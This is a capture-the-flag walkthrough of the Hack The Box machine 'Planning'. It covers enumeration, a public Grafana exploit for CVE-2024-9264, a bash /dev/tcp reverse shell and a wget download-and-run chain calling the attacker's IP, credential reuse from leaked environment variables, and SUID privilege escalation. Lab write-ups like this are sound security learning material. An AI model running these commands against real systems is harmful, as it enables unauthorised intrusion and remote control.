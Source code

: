 # Planning - No Walkthrough (Active Machine)

## 🔍 Initial Enumeration

Trying to see all the active services using:

```bash
nmap -p- -sV -sC --min-rate 500 10.10.11.68
```

Results show an SSH service and a HTTP server.  
The HTTP server redirects to:  
**http://planning.htb/**

Now added the `http://planning.htb/` and `10.10.11.68` to `/etc/hosts` so that it shows the site.

## 🗂 Gobuster and Directory/Subdomain Discovery

Used `gobuster` to check for any subdomains and also any directories but nothing useful.

I found a PHP file called `details.php` which takes you to an `enroll.php` that contains a form for fullname, email, and phone no.  
Except for email, nothing is validated.  
Tried to pass quotes to try for SQL injection to get an error but only showing “successful”.

Tried subdomain fuzzing - no dice with `bug-bounty-program-subdomains-trickest-inventory.txt`

Directory fuzzing - got nothing useful.

Checked online for any hints - there was a hint to keep trying subdomain fuzzing with other wordlists.

## 🔄 Switching Tools - Trying FFUF

I am going to try using `ffuf` instead of gobuster this time:

```bash
ffuf -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u 'http://planning.htb' -H "Host:FUZZ.planning.htb"
```

Found a `grafana` subdomain 🎯

## 📦 Grafana Vulnerability & Exploitation

Checked the version of Grafana using `/api/health` - got response with version as `v11.0.0`

Googled for any vulnerabilities for this particular version and found:  
**CVE-2024-9264**

Found a working exploit at:  
https://github.com/nollium/CVE-2024-9264.git

Cloned it and used:

```bash
python3 CVE-2024-9264.py -u user -p user -c <shell-cmd> <url>
```

Passed `id` in the `-c` and I see that I have **root access**

## 🔁 Reverse Shell Setup

Now I am going to do reverse shell.

Started a port using:

```bash
nc -lvnp 4444
```

Created a file:

```bash
echo bash -i >& /dev/tcp/10.10.14.96/4444 0>&1 > shell.sh
```

Hosted it using:

```bash
python3 -m http-server 8000
```

Then passed this `wget` command through duckdb using the CVE exploit:

```bash
wget http://10.10.14.96:8000/shell.sh -O /tmp/shell.sh && chmod +x /tmp/shell.sh && bash /tmp/shell.sh
```

We got the shell access 🎉

Went through most files, couldn’t find a user flag or root flag.

## 🧪 Post Exploitation - LinPEAS & Enumeration

Looks like this is not it. Need to run **LinPEAS** to check.

Downloaded `linpeas.sh` in attacker machine, hosted it same as the shell file, and used `wget` from reverse shell.

Then did:

```bash
chmod +x linpeas.sh
```

First time using linpeas so had to research what to check.

Could see that we are in a **Docker container** and not on the host — container escape maybe?

In the LinPEAS report I could see all the env variables and in it I found some interesting stuff:

```env
GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!
GF_SECURITY_ADMIN_USER=enzo
```

## 🔐 SSH Access

Tried it in the Grafana login - no dice.

Tried it as an SSH user for the SSH found during Nmap enumeration:

```bash
ssh enzo@<IPADDRESS>
```

Put in the password — I’m **logged in** 🧑‍💻  
**Found my first user flag** for an active machine!

## ⚙️ Privilege Escalation

Ran `linpeas` again — noticed there was a file with **SUID attached**:

```bash
/tmp/bash
```

Ran:

```bash
/tmp/bash -p
```

Got **root access** 🎯

```bash
cat /root/root.txt
```

**Got the root flag** — Machine **pawned** 💀